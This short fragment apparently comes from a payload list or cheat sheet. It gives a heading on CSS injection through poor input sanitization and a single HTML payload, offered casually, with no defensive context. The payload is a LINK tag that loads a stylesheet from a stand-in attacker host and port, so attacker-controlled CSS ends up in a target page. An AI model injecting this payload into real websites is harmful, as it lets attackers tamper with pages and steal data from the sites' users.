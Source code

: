 #CSS injection via bad sanatization input (2022 epic payload xD) : 

```
<LINK REL="stylesheet" HREF="http://attacker_IP:attacker_PORT/xss.css">
```
